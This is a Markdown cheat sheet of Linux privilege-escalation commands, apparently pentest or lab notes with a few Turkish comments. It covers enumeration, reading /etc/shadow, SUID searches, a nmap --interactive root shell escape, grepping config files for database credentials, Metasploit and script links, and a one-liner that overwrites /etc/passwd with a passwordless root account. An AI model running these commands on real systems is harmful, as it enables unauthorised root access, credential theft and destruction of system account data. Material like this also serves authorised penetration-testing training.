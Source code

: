 
# Linux Privilage Escalation Notes

* **Guide**

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

* **General Command**

Kernel version detection & Priv Check:
```
cat /etc/issue
uname -a
cat /proc/version
cat /etc/shadow @Normal kullanıcı göremez
```

Services are Running as Root

```
ps aux | grep root
```


Find Suit & Guid Bit & Writeable Files
```
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
find / -perm -2 ! -type l -ls 2>/dev/null @Yazma yetkisi olan dosyalar
```

Try :)
```
sudo su
sudo -l
```

Edit passwd file 
```
echo root::0:0:root:/root:/bin/bash > /etc/passwd
su
```

Nmap permissions

```
sudo nmap --interactive
!id
!cat /root/proof.txt
```

Network connections

```
netstat -ano
```

Metasploit Exploit Suggester

```
run post/multi/recon/local_exploit_suggester
```

Find something

```
cat config.php | grep db
```

## Automated Scripts:

* Linux Priv Checker:

https://www.securitysift.com/download/linuxprivchecker.py

* LinEnum:

https://github.com/rebootuser/LinEnum

* Linux Exploit Suggester:

https://github.com/mzet-/linux-exploit-suggester

* Old Linux Exploit SuggersteR:

https://github.com/PenturaLabs/Linux_Exploit_Suggester

* Linux Post Exploatation:

https://github.com/reider-roque/linpostexp








